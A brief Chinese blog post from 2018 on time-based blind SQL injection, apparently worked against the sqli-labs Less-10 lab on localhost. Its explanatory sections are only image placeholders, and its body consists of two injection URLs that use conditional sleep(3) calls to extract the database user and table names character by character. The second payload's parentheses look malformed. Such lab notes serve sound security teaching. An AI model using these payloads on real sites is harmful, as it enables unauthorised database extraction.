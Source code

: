 ```yaml
---
layout: post
title: "1.3.2-SQL注入-SQL盲注-时间盲注"
date: 2018-06-23
category: web安全
tags: web安全 sql注入 时间盲注
---
```


## 时间盲注

### 时间盲注原理
【图片】
【图片】



### 时间盲注方法

[时间tupian]
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

【图片】
